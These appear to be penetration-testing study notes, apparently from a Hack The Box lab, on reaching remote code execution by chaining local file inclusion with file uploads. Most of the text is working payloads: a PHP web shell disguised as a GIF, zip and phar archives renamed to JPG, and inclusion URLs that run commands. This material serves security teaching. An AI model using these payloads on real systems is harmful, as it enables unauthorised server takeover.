 ```yaml
---
title: c-LFI and File Uploads
draft: false
tags:
  - lfi
---
```

> We can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

As mentioned in the first section, the following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

## Image Upload

### Craft Malicious Image

Let's create a malicious `gif` file as such:

```shell-session
jadu101@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> **Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.


Now we go to `Profile Settings` and click on the avatar image to select and upload our malicious image. 

### Uploaded File Path

Once we've uploaded our file, all we need to do is include it through the LFI vulnerability.

Let's inspect the source code after uploading the image. 

We can get its upload URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:

```URL
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```


## Zip Upload

There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

 We can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
 
```shell-session
jadu101@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

> **Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

```URL
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

```shell-session
jadu101@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Once we upload it to the web application, we can simply call it with `phar://`:

```URL
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

> **Note:** There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the `phpinfo()` page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).


